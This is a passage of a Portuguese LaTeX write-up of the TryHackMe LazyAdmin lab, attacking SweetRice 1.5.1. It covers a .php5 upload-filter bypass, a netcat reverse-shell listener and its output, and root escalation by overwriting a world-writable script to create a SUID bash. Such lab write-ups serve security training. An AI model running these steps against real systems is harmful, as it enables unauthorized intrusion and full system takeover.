  
\includegraphics[width=0.95\linewidth]{media_center.png}
  \caption{\emph{Media Center} do SweetRice (versão 1.5.1) após o \emph{login}
  com as credenciais recuperadas: formulário de \emph{upload} de arquivos.}
  \label{fig:media_center}
\end{figure}

O \emph{upload} direto de \texttt{.php} é recusado, assim como um \texttt{.php}
dentro de \texttt{.zip}. O filtro, porém, verifica apenas a extensão
\texttt{.php}: renomeando o \emph{payload} para \texttt{.php5} (extensão que o
Apache também executa como PHP) o \emph{upload} é aceito. O \emph{shell} fica
acessível em \texttt{/content/attachment/shell.php5}.

\begin{lstlisting}[language=bash,caption={Listener Netcat e disparo do shell via navegador.}]
# Na maquina atacante:
nc -l -v -n -p 1234

# No navegador, aciona o shell enviado:
http://127.0.0.1/content/attachment/shell.php5
\end{lstlisting}

\subsection{Confirmação de acesso e flag de usuário}
A conexão retorna um \emph{shell} como \texttt{www-data}, confirmando a execução
remota de código. A \emph{flag} de usuário está em \texttt{/home/itguy/user.txt}.

\begin{lstlisting}[style=output,caption={Shell recebido: contexto www-data.}]
connect to [<ATTACKER_IP>] from (UNKNOWN) [172.18.0.3] ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

\begin{lstlisting}[language=bash,caption={Leitura da flag de usuário.}]
cat /home/itguy/user.txt   # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{reverse_shell.png}
  \caption{\emph{Reverse shell} recebido via Netcat como \texttt{www-data},
  confirmando a execução remota de código.}
  \label{fig:reverse_shell}
\end{figure}

%======================== 2.6 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios}

\subsection{Enumeração local}
Como \texttt{www-data}, o \cmd{sudo -l} revela uma permissão específica: executar
\texttt{/usr/bin/perl} sobre o script \texttt{/home/itguy/backup.pl} como
\texttt{root}, sem senha.

\begin{lstlisting}[style=output,caption={Politica de sudo para www-data.}]
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
\end{lstlisting}

O conteúdo do script apenas delega a execução para um segundo arquivo:

\begin{lstlisting}[style=output,caption={Conteudo de backup.pl.}]
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
\end{lstlisting}

A verificação de \texttt{/etc/copy.sh} mostra o ponto fraco: o arquivo é
\textbf{gravável por todos} (\texttt{-rw-r--rwx}). Como \texttt{backup.pl} roda
como \texttt{root} e executa esse \texttt{sh}, qualquer conteúdo colocado nele é
executado com privilégios de \texttt{root}.

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Tentei o atalho \cmd{sudo perl -e 'exec "/bin/sh";'}: a regra do
        \texttt{sudo} autoriza \emph{apenas} o comando exato
        \texttt{/usr/bin/perl /home/itguy/backup.pl}, então a chamada genérica
        exige senha e falha. A via correta é abusar do script já autorizado.
\end{itemize}
\end{becosemsaida}

\subsection{Obtenção de root e flag final}
Sobrescreve-se \texttt{/etc/copy.sh} com um comando que cria uma cópia
\textbf{SUID} do \texttt{bash}; ao acionar o script autorizado via \texttt{sudo},
essa cópia é criada como \texttt{root}. Executando-a com \texttt{-p} (preserva o
EUID), obtém-se um \emph{shell} de \texttt{root}.

\begin{lstlisting}[language=bash,caption={Escalada a root via script gravável + bash SUID.}]
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
/tmp/rootbash -p
whoami            # -> root
cat /root/root.txt   # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{root_flag.png}
  \caption{\cmd{sudo -l} expondo a regra do \texttt{perl}; sobrescrita de
  \texttt{/etc/copy.sh}, execução via \texttt{sudo} e \texttt{/tmp/rootbash -p}
  elevando a \texttt{root} para leitura da \emph{flag} final.}
  \label{fig:root_flag}
\end{figure}

%============================= 2.7 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento encadeou várias más configurações do SweetRice 1.5.1 e do
sistema. Primeiro, o \textbf{backup do banco} exposto em
\texttt{/content/inc/mysql\_backup/} entregou o usuário \texttt{manager} e o
\emph{hash} MD5, quebrado \emph{offline}. Com o \emph{login} no painel, o filtro
de \emph{upload} do \emph{Media Center} foi contornado pela extensão
\texttt{.php5}, resultando em \emph{reverse shell} como \texttt{www-data}. Por
fim, a combinação de uma regra de \texttt{sudo} sobre um script que invoca
\texttt{/etc/copy.sh} \textbf{gravável por todos} permitiu criar um \texttt{bash}
SUID e escalar a \texttt{root}. As falhas centrais foram a \textbf{exposição de
backup}, o \textbf{filtro de upload por extensão} e um \textbf{script privilegiado
gravável}.

%============================= 2.8 REFERENCIAS ==================================
\section{Referências}
As fraquezas exploradas no SweetRice 1.5.1 não possuem CVE atribuída; são
documentadas em entradas públicas do Exploit-DB.
\begin{itemize}[leftmargin=1.5em]
  \item TryHackMe --- Sala \emph{LazyAdmin} ---
        \url{https://tryhackme.com/room/lazyadmin}
  \item Exploit-DB 40718 --- \emph{SweetRice 1.5.1 - Backup Disclosure} ---
        \url{https://www.exploit-db.com/exploits/40718}
  \item Exploit-DB 40716 --- \emph{SweetRice 1.5.1 - Arbitrary File Upload} ---
        \url{https://www.exploit-db.com/exploits/40716}
  \item Hashcat --- \emph{modos de hash} ---
        \url{https://hashcat.net/wiki/doku.php?id=example_hashes}
  \item GTFOBins --- \texttt{perl} ---
        \url{https://gtfobins.github.io/gtfobins/perl/}
\end{itemize}

\end{document}
